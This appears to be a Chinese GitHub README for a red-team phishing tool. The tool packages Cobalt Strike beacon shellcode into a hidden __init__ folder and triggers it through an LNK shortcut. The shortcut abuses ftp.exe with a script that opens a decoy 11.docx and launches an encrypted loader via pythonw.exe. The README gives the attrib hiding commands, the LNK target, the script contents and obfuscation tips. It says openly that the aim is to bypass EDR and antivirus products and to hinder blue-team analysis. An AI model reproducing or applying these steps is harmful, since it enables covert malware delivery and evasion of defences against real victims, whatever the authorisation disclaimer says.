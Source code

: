 ## 前言

最近看到一些博客文章对红队样本做了一些分析，估计很快此方法便失效了，决定放出来供红队成员学习研究

https://xz.aliyun.com/t/15308?time__1311=GqjxnD2Citq05DK54CqiKq7KYAKW948OObD

https://www.52pojie.cn/thread-1956543-1-1.html

其实这种方式在很早之前便出现了，之前更多的是调用powershell易被拦截

https://www.freebuf.com/articles/web/325322.html

但通过调用一些白程序(pythonw、javaw)仍可以绕过许多EDR杀软

## 常规程序弊端

- 如果使用捆绑程序释放文档和木马，容易被EDR杀软会标记为恶意，如某数字杀软常会产生 `qvm 报毒拦截`
- 红队木马被上传沙箱后，容易失效并且可能会导致大量的虚拟beacon上线，对攻击方造成影响

## 使用方式

特此感谢 [pant0m](https://github.com/pant0m)，本工具在其基础上进行二改

1、`cobaltstrike` 生成 `beacon_x64.bin`，或者使用其他C2的shellcode，默认匹配当前目录的第一个bin文件

![image](https://github.com/user-attachments/assets/fc97cb09-f20c-4f38-b639-968d0cdbfb10)

2、运行`generate.py`，自动加密`shellcode`并复制到当前`__init__`文件夹下

![image](https://github.com/user-attachments/assets/bf3081fb-60fc-4bf2-b37f-68463473d453)

3、设置属性隐藏文件夹 `__init__`

```
attrib -s -h -r __init__
attrib +s +h +r __init__
```

LNK属性填写

```
C:\Windows\System32\ftp.exe -""s:__init__\python.dll
```
![image](https://github.com/user-attachments/assets/3af29388-36b9-44f8-bffb-3f11b2ef488b)

python.dll 内容为

```
!start /b __init__\11.docx
!start /b __init__\pythonw.exe __init__\main.py
bye
```

## 实现效果

![e58ad4a8c625481495a7137bee2837e](https://github.com/user-attachments/assets/f9b781b9-795f-4304-ad68-67ddac4ab393)

## 代码加解密和混淆

shellcode处理可使用 https://github.com/EgeBalci/sgn

![image](https://github.com/user-attachments/assets/6dcff7a3-42f4-4194-afb5-06015a474395)

加载方式为了简便选择本地解密加载，但如果说为了更好的防溯源和被蓝队捕获shellcode可使用远程加载的方式，但需要注意存储桶的权限配置

解密loader因为需要携带在附件内，所以需要尽可能混淆，增加蓝队的逆向难度

https://pyob.oxyry.com/

![image](https://github.com/user-attachments/assets/3ad71315-9824-49b5-8196-e75afee1668c) 

## 坑点细节

因为文件调用是在上一级目录下，因此`加密shellcode路径`应设置为相对的 `__init__/data.dat`

```
def loadjson (file ='__init__/data.dat'):#line:14
    with open (file ,'r',encoding ='utf-8')as O0OOO00O0OO0O0OO0 :#line:16
        OOO0O0OO000OOO0O0 =json .load (O0OOO00O0OO0O0OO0 )
```

pythonw.exe需要添加libs依赖才能正常运行，把文件夹下面的文件全部拷贝

```java
C:\Users\Administrator\AppData\Local\Programs\Python\Python38\Lib
```

## 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

